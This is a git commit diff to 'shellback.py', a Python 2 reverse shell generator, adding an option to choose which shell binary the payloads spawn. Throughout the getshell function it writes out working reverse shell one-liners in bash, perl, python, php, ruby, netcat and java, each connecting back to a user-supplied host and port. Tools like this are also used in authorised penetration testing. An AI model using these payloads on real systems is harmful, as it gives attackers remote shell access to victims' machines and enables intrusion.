

--shell (-s) option added

diff --git a/shellback.py b/shellback.py
@@ -12,9 +12,20 @@ from argparse import ArgumentParser, RawTextHelpFormatter, ArgumentTypeError
 F, S, BT = Fore.RESET, Style.RESET_ALL, Style.BRIGHT
 FG, FR, FC, BR = Fore.GREEN, Fore.RED, Fore.CYAN, Back.RED
 
+
+# shell types
+SHELL = {
+    'sh'   : '/bin/sh',
+    'zsh'  : '/bin/zsh',
+    'ksh'  : '/bin/ksh',
+    'tcsh' : '/bin/tcsh',
+    'bash' : '/bin/bash',
+    'dash' : '/bin/dash'}
+
+
 def console():
     """argument parser"""
-    parser = ArgumentParser(description="{}shellback.py:{} generates a reverse shell".format(BT+FG,S),formatter_class=RawTextHelpFormatter)    
+    parser = ArgumentParser(description="{}shellback.py:{} reverse shell generator".format(BT+FG,S),formatter_class=RawTextHelpFormatter)    
     parser._optionals.title = "{}arguments{}".format(BT,S)
     parser.add_argument('-l', "--lhost", 
                     type=validateIP, 
@@ -34,19 +45,22 @@ def console():
     parser.add_argument('-u', "--uencode",
                     help="Urlencode the reverse-shell command [{0}default {2}{1}False{2}]".format(BT,FR,S), 
                     action='store_true')
+    parser.add_argument('-s', "--shell",
+                    help="Specify shell type to use (not always applicable) [{0}default {2}{1}sh{2}]".format(BT,FG,S),
+                    default='sh', choices=['sh','zsh','ksh','tcsh','bash','dash'], metavar='')
     args = parser.parse_args()
     return args
 
 
-def getshell(host, port, pl):
+def getshell(host, port, pl, shell):
     reverseShells = {
         'bash':   'bash -i >& /dev/tcp/{0}/{1} 0>&1'.format(host, port),
-        'perl':   "perl -e 'use Socket;$i="+'"{0}";$p={1};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");}};{2}'.format(host, port, "'"),
-        'python': "python -c '"+'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{0}",{1}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);{2}'.format(host, port, "'"),
-        'php'   : "php -r '"+'$sock=fsockopen("{0}",{1});exec("/bin/sh -i <&3 >&3 2>&3");{2}'.format(host, port, "'"),
-        'ruby':   "ruby -rsocket -e'"+'f=TCPSocket.open("{0}",{1}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f){2}'.format(host, port, "'"),
-        'nc1':    "nc -e /bin/sh {0} {1}".format(host, port),
-        'nc2':    "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {0} {1} >/tmp/f".format(host, port),
+        'perl':   "perl -e 'use Socket;$i="+'"{0}";$p={1};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("{3} -i");}};{2}'.format(host, port, "'", shell),
+        'python': "python -c '"+'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{0}",{1}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["{3}","-i"]);{2}'.format(host, port, "'", shell),
+        'php'   : "php -r '"+'$sock=fsockopen("{0}",{1});exec("{3} -i <&3 >&3 2>&3");{2}'.format(host, port, "'", shell),
+        'ruby':   "ruby -rsocket -e'"+'f=TCPSocket.open("{0}",{1}).to_i;exec sprintf("{3} -i <&%d >&%d 2>&%d",f,f,f){2}'.format(host, port, "'", shell),
+        'nc1':    "nc -e {2} {0} {1}".format(host, port,shell),
+        'nc2':    "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|{2} -i 2>&1|nc {0} {1} >/tmp/f".format(host, port,shell),
         'java':   'r = Runtime.getRuntime()\np = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{0}/{1};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])\np.waitFor()'.format(host, port)
     }
     return reverseShells[pl]
@@ -68,15 +82,16 @@ def cmd2file(cmd):
 
 
 def validatePort(port):
-    """For enhanced security"""
+    """Validate port number entered"""
     if isinstance(int(port), (int, long)):
-        if 1024 < int(port) < 65536:
+        if 1 < int(port) < 65536:
             return int(port)
     else:
-        raise ArgumentTypeError('{}[x] Port must be in range 1024-65535{}'.format(FR,F))
+        raise ArgumentTypeError('{}[x] Port must be in range 1-65535{}'.format(FR,F))
 
 
 def validateIP(ip):
+    """validate ip provided"""
     try:
         if socket.inet_aton(ip):
             return ip
@@ -93,14 +108,16 @@ def urlEncode(cmd):
         sys.exit(0)
 
 
-def generate(host, port, pl, cp, tofile, uenc):
+def generate(host, port, pl, cp, tofile, uenc, shelltype):
     print '{0}[{1}{2}{3}{0}]{3} reverse-shell:\n'.format(BT, FG, pl, S)
-    shell = getshell(host, port, pl)
+    shell = getshell(host, port, pl, SHELL[shelltype])
     if tofile:
         shell = ''.join(cmd2file(shell))
     elif(uenc):
         shell = urlEncode(shell)
     print shell+'\n'
+    if pl not in ('bash', 'java'):
+        print '{0}[+]{1} Shell type chosen: {0}{2}{1}'.format(BT,S,SHELL[shelltype])
     if cp:
         copy(shell)
         print '{}[+] {}{}{} reverse-shell command copied to clipboard!'.format(BT, FG, pl, S)
@@ -109,7 +126,7 @@ def generate(host, port, pl, cp, tofile, uenc):
 if __name__ == '__main__':
     args = console()
     if args.lhost:
-        generate(args.lhost, args.lport, args.version, args.copy, args.tofile, args.uencode)
+        generate(args.lhost, args.lport, args.version, args.copy, args.tofile, args.uencode, args.shell)
     else: 
-        print '{}usage:{} shellback.py [-h] [-l] [-p] [-v] [-f] [-c] [-u]'.format(BT,S)
+        print '{}usage:{} shellback.py [-h] [-l] [-p] [-v] [-f] [-c] [-u] [-s]'.format(BT,S)
 #_EOF
